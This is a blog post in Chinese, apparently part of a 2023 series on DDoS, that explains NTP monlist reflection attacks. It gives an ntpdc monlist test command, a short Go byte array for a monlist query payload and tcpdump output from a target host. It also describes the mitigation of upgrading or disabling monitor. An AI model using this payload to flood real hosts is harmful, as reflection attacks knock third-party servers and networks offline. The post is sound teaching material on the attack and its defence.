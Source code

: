 ```yaml
---
author: Sunny Tsai
title: "[Day 18] 閑著沒事 - NTP 反射攻擊"
date: 2023-10-01
math: true
tags: [
    "cloud",
    "ntp reflect",
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-DDOS：閑的沒事就開始DDOS"]
---
```

# NTP
NTP（Network Time Protocol）網路時間協議，用來同步主機時間的網路協議。

# NTP Monlist
NTP有一個monitor功能，也被稱為MON_GETLIST。這個功能為監控伺服器。NTP服務器收到monlist後就會返回與NTP服務器同步過的最後600個客戶端IP。
可以在客戶端主機輸入以下command line測試：
```
ntpdc -n -c monlist x.x.x.x | wc -l
```
輸出為收到的數據行數

# 如何避免
禁用monlist:
將ntp server升級到4.2.7p26或更高版本，在4.2.7前的版本，在配置檔設定```disable monitor```禁用monlist功能。

# code
ntp跟dns查詢一樣是發送udp封包，把payload修改一下就可以了
```
ntpdcMonlistQuery := []byte{
	0x17, 0x00, 0x03, 0x2a, // NTPDC Request Header
	// Monlist Query
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // Cookie
}
```

# 目標主機攔截封包
```
> sudo tcpdump -i eth0 host 10.211.55.10 and port 123 -v
03:02:08.524364 IP (tos 0x10, ttl 64, id 43750, offset 0, flags [DF], proto UDP (17), length 76)
    ubuntu-linux-20-04-desktop.38707 > prod-ntp-5.ntp1.ps5.canonical.com.ntp: NTPv4, length 48
	Client, Leap indicator:  (0), Stratum 0 (unspecified), poll 0 (1s), precision 0
	Root Delay: 0.000000, Root dispersion: 0.000000, Reference-ID: (unspec)
	  Reference Timestamp:  0.000000000
	  Originator Timestamp: 0.000000000
	  Receive Timestamp:    0.000000000
	  Transmit Timestamp:   3905175728.121997727 (2023/10/02 03:02:08)
	    Originator - Receive Timestamp:  0.000000000
	    Originator - Transmit Timestamp: 3905175728.121997727 (2023/10/02 03:02:08)
        ...
```

試了一下，目標主機收到大量時間校正封包...
